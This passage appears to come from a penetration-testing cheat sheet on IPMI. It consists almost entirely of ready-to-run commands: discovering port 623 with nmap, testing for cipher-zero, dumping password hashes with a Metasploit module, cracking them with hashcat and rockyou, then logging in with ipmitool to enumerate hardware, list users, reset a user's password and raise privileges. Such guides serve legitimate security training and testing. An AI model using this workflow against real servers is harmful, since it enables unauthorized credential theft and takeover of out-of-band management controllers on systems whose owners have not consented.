 ```bash
# Crack with hashcat
hashcat -m 7300 hash.txt wordlist.txt
# Answer: cracked_password
```

### Real-World Scenario
```bash
# Complete IPMI enumeration workflow
# 1. Discovery
nmap -sU -p623 --script ipmi-version target_network/24

# 2. Vulnerability assessment
nmap -sU -p623 --script ipmi-cipher-zero target

# 3. Hash extraction
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOSTS target
set OUTPUT_HASHCAT_FILE ipmi_hashes.txt
run

# 4. Hash cracking
hashcat -m 7300 ipmi_hashes.txt /usr/share/wordlists/rockyou.txt

# 5. Access verification
ipmitool -I lanplus -H target -U admin -P cracked_password chassis status

# 6. System reconnaissance
ipmitool -I lanplus -H target -U admin -P cracked_password fru list
ipmitool -I lanplus -H target -U admin -P cracked_password sdr list
ipmitool -I lanplus -H target -U admin -P cracked_password user list
```

## Information Gathering

### System Information
```bash
# Hardware information
ipmitool -I lanplus -H target -U user -P pass fru list

# Sensor data
ipmitool -I lanplus -H target -U user -P pass sdr list

# System event log
ipmitool -I lanplus -H target -U user -P pass sel list

# Network configuration
ipmitool -I lanplus -H target -U user -P pass lan print
```

### User Management
```bash
# List users
ipmitool -I lanplus -H target -U admin -P pass user list

# Set user password
ipmitool -I lanplus -H target -U admin -P pass user set password 2 newpassword

# Set user privileges
ipmitool -I lanplus -H target -U admin -P pass user priv 2 4
```
